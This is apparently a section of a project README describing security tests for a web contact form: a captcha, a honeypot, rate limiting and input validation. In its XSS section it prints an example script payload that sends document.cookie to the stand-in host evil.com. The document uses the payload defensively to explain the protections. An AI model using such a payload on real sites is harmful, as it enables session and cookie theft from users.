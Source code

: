 
## 🧪 Testing Security

### Test Math Captcha

1. **Submit without solving** - Should be blocked
2. **Submit wrong answer** - Should show error
3. **Submit correct answer** - Should work
4. **Refresh and try again** - New question appears

### Test Honeypot

1. **Open browser console** (F12)
2. **Run:**
   ```javascript
   document.querySelector('input[name="website"]').value = 'bot'
   ```
3. **Submit form** - Should be blocked
4. **Error**: "Bot detected"

### Test Rate Limiting

1. **Submit form 6 times quickly**
2. **6th submission should fail**
3. **Error**: "Too many requests"
4. **Wait 15 minutes** - Should work again

### Test Input Validation

Try submitting:
- Empty fields - ❌ Blocked
- Invalid email - ❌ Blocked
- 1-character name - ❌ Blocked
- Message with `<script>` - ✅ Accepted but sanitized

---

## 🐛 Security Vulnerabilities Prevented

### 1. Cross-Site Scripting (XSS)

**Attack:**
```html
<script>
  fetch('evil.com?cookie=' + document.cookie)
</script>
```

**Protection:**
- ✅ React auto-escapes output
- ✅ Input sanitization removes scripts
- ✅ CSP header blocks inline scripts
- ✅ XSS header enables browser protection

---